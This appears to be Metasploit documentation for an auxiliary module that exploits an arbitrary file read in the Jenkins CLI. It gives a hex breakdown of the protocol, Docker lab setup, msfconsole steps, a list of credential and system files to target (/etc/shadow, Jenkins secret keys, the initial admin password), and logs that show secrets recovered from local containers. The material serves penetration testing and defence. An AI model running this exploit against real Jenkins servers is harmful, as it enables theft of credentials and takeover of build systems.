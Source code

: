 ## Vulnerable Application

Exploitation by hand can be done by downloading the CLI from the target: `wget http://<host>:8080/jnlpJars/jenkins-cli.jar`

Vulnerable versions include:

 * < 2.442
 * LTS < 2.426.3

### Protocol Breakdown

A few samples of the protocol that was observed, how to generate it, and the breakdown of fields.
 
|                                           | **Generator**                                                                    | **Heading**                  | **Pad (1)**      | **Unknown (len(@file_name) + 2)** | **len(@file_name)** | **@** | **file_name**            | **Unknown**  | **len(encoding)** | **UTF-8**  | **Unknown**  | **len(locality)** | **en_US**  | **footer** |
|-------------------------------------------|----------------------------------------------------------------------------------|------------------------------|------------------|-------------|---------------------|-------|--------------------------|--------------|-------------------|------------|--------------|-------------------|------------|------------|
| **no pad multi line file (/tmp/file.22)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.22"   | 0000000600000468656c70000000 |                  | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **no pad single line file (/tmp/file.1)** | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help "@/tmp/test.1"    | 0000000600000468656c70000000 |                  | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad multi line file (/tmp/file.22)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.22" | 0000000600000468656c70000000 | 0300000131000000 | 0f0000      | 0d                  | 40    | 2f746d702f746573742e3232 | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |
| **pad single line file (/tmp/file.1)**    | java -jar jenkins-cli.jar -s http://localhost:8080/ -http help 1 "@/tmp/test.1"  | 0000000600000468656c70000000 | 0300000131000000 | 0e0000      | 0c                  | 40    | 2f746d702f746573742e31   | 000000070200 | 05                | 5554462d38 | 000000070100 | 05                | 656e5f5553 | 0000000003 |

### Docker Setup

Version 2.440: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.440-jdk17`

LTS Version 2.426.2: `docker run -p 8080:8080 -p 50000:50000 jenkins/jenkins:2.426.2-lts`

## Verification Steps

1. Install the application
1. Start msfconsole
1. Do: `use auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read`
1. Do: `set rhost [ip]`
1. Do: `run`
1. You should get the first two lines of the `FILE_PATH`

## Options

### FILE_PATH

File path to read from the server. Defaults to `/etc/passwd`.

Other files which may be of value:
 * `/var/jenkins_home/secret.key`
 * `/var/jenkins_home/secrets/master.key`
 * `/var/jenkins_home/secrets/initialAdminPassword`
 * `/etc/passwd`
 * `/etc/shadow`
 * Project secrets and credentials
 * Source code, build artifacts

### DELAY

Delay between first and second request to ensure first request gets there on time, but the second request is very quickly behind it.
Defaults to `0.5`

Testing against the docker image showed values between `.01` and `1.9` were successful.

### ENCODING

Encoding to use for reading the file. This may mangle binary files. Defaults to `UTF-8`

### LOCALITY

Locality to use for reading the file. This may mangle binary files. Defaults to `en_US`

## Scenarios

### jenkins 2.440-jdk17 on Docker

```
msf6 > use auxiliary/gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secrets/initialAdminPassword
file_path => /var/jenkins_home/secrets/initialAdminPassword
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: ed148f4d-709a-4d16-a452-4509f3a37ed6
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secrets/initialAdminPassword file contents retrieved (first line or 2):
f5d5f6e98e1f466aad22c0f81ca48fb0
[+] Results saved to: /root/.msf4/loot/20240130204021_default_127.0.0.1_jenkins.file_717110.txt
[*] Auxiliary module execution completed
```

### jenkins 2.426.2-lts on Docker

```
msf6 > use auxiliary/gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > set file_path /var/jenkins_home/secret.key
file_path => /var/jenkins_home/secret.key
msf6 auxiliary(gather/auxiliary/gather/jenkins_ccli_ampersand_arbitrary_file_read) > run
[*] Running module against 127.0.0.1

[*] Sending requests with UUID: 0d69c3f1-7695-4db1-a0c6-08108f33e339
[*] Re-attempting with padding for single line output file
[+] /var/jenkins_home/secret.key file contents retrieved (first line or 2):
6ce26592ad3683cc8d056bea07ffa2696f1b14f0db64dbd122c50ab930e279ad
[+] Results saved to: /root/.msf4/loot/20240130204241_default_127.0.0.1_jenkins.file_317409.txt
[*] Auxiliary module execution completed
```
